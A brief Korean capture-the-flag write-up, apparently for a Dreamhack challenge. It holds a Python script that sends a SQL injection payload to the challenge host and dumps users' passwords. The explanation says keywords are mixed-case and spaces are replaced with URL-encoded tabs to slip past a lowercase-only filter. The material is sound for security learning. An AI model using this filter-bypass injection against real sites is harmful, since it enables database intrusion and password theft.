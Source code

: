 # 익스플로잇 코드 
```py
import requests
url = "http://host3.dreamhack.games:19112/?uid="
query = "1%27%09Union%09Select%091,group_concat(upw),3%09From%09user%23"
print(requests.get(url+query).text)
```
# 풀이법
소문자만 검사하기 때문에 대문자를 섞고, 띄여쓰기를 url encoding해서 우회했다
